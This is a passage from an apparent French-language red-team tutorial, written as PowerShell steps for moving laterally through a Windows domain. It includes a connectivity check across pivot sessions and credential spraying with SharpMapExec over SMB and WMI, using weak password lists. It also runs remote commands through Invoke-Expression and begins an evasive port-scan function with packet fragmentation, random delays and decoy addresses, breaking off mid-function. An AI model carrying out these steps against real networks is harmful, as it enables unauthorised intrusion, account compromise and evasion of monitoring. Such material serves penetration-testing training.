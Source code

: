 ```powershell

$TestTargets = @("10.0.0.1", "172.16.0.1", "192.168.100.1")
$PivotResults = Invoke-Command -Session $Sessions -ScriptBlock $ConnectivityTest -ArgumentList (,$TestTargets)
```

#### Étape 2 : Reconnaissance distribuée avec SharpMapExec

Implémentez une reconnaissance distribuée utilisant SharpMapExec pour maximiser la couverture.

```powershell
# Préparation des listes de cibles et credentials
$Targets = Get-DomainComputer | Select-Object -ExpandProperty name | Out-File -FilePath "targets.txt" -Encoding ASCII
$Users = @("admin", "administrator", "service", "backup") | Out-File -FilePath "users.txt" -Encoding ASCII
$Passwords = @("password123", "admin123", "service123") | Out-File -FilePath "passwords.txt" -Encoding ASCII

# Exécution distribuée avec rotation des credentials
$SharpMapExecCommands = @(
    "SharpMapExec.exe ntlm smb /targets:targets.txt /users:users.txt /passwords:passwords.txt /domain:corp.local /shares",
    "SharpMapExec.exe ntlm wmi /targets:targets.txt /users:users.txt /passwords:passwords.txt /command:'netstat -an'",
    "SharpMapExec.exe ntlm smb /targets:targets.txt /users:users.txt /passwords:passwords.txt /command:'whoami /all'"
)

# Distribution des commandes sur les pivots
for ($i = 0; $i -lt $SharpMapExecCommands.Count; $i++) {
    $SessionIndex = $i % $Sessions.Count
    $Command = $SharpMapExecCommands[$i]
    
    Invoke-Command -Session $Sessions[$SessionIndex] -ScriptBlock {
        param($Cmd)
        Invoke-Expression $Cmd
    } -ArgumentList $Command -AsJob
}
```

#### Étape 3 : Scan de ports avec techniques d'évasion avancées

Développez des techniques de scan sophistiquées combinant multiple vecteurs d'évasion.

```powershell
# Scanner avec fragmentation et timing adaptatif
function Invoke-AdvancedEvasionScan {
    param(
        [string[]]$Targets,
        [int[]]$Ports,
        [int]$FragmentSize = 8,
        [int]$MinDelay = 5,
        [int]$MaxDelay = 30
    )
    
    foreach ($Target in $Targets) {
        Write-Output "[+] Scanning $Target avec évasion avancée"
        
        # Génération de decoys dynamiques
        $Decoys = Generate-DecoyAddresses -TargetNetwork (($Target -split '\.')[0..2] -join '.') -Count 5
        
        # Scan avec nmap et techniques d'évasion
```